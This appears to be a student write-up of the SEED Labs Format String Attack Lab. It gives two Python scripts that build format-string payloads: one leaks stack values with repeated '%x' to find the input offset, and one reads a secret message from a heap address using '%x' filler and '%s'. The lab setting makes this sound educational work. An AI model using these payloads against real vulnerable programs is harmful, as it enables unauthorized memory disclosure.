



# SEED Labs - Format String Attack Lab
## Task #2

### Task 2.A: Stack Data

1. Send a payload that allows the finding of the memory addresses of the stack values.
    - In our case, we have done this with the script `exploit.py` by modifying the number of "%x" modifiers until our value 0xABCD1234 were found.

```python
#!/usr/bin/python3
import sys

payload = bytearray.fromhex("ABCD1234") + b" %x " * 64

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(payload)
```

Terminal 1 | Terminal 2
:---------:|:---------:
 | 

2. Analyze the server logs output
    - If we analyze the logs, we can easily find that there are 63 addresses before our input. Since each address has 4 Bytes, we need to send 252 bytes before we find our input.

### Task 2.B: Heap Data

1. Write the payload to get the secret message
    - We know the address of the secret message because of the log `server-10.9.0.5 | The secret message's address:  0x080b4008`
    - We also know that if we write a variable we will get it in the 64th position, so, if we write the address of the secret variable and we just normally print the address of the 63 filler addresses, we can print the address of our secret as a string with the "%x" modifier and therefore, we get the secret content.

```python
#!/usr/bin/python3
import sys

payload = (0x080b4008).to_bytes(4, byteorder='little') + b"%x"*63 + b"%s"

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(payload)
  ```

Terminal 1 | Terminal 2
:---------:|:---------:
 | 

